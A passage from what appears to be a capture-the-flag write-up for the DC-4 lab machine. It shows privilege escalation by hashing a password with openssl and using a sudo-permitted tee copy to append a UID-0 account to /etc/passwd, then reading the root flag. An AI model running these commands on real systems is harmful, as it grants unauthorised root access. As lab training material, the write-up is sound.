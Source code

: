 ```bash
```

> It seems to be `tee`
{: .prompt-info }

Googling privilege escalation with `tee` shows a simple technique, by adding a line to `/etc/passwd`.  
  
We start by generating a hash value for `123`.
```bash
$ openssl passwd -1 -salt new 123
$1$new$p7ptkEKU1HnaHpRtzNizS1
```

Then we construct the line we will add to the `/etc/passwd` file to create a `root` account.
```bash
new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash
```

Now we add this line to `/etc/passwd` using the `tee` binary we identified.
```bash
printf 'new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash\n' | sudo /usr/bin/teehee -a /etc/passwd
```

Lets check if we have a `root` account now by switching to user `new` with the password `123`.
```bash
charles@dc-4:~$ su new
Password: 
root@dc-4:/home/charles# id
uid=0(root) gid=0(root) groups=0(root)
```

> Yes! We are `root`
{: .prompt-info }

## get second flag
```bash
root@dc-4:/home/charles# cd /root
root@dc-4:~# ls -lsah
total 32K
4.0K drwx------  3 root root 4.0K Aug  3 06:53 .
4.0K drwxr-xr-x 21 root root 4.0K Apr  5  2019 ..
4.0K -rw-------  1 root root   14 Aug  3 07:11 .bash_history
4.0K -rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
4.0K -rw-r--r--  1 root root  976 Apr  6  2019 flag.txt
4.0K drwxr-xr-x  2 root root 4.0K Apr  6  2019 .nano
4.0K -rw-r--r--  1 root root  148 Aug 18  2015 .profile
4.0K -rw-r--r--  1 root root   33 Aug  3 06:53 proof.txt
root@dc-4:~# cat proof.txt
2******************************8
```

Pwned! <@:-)
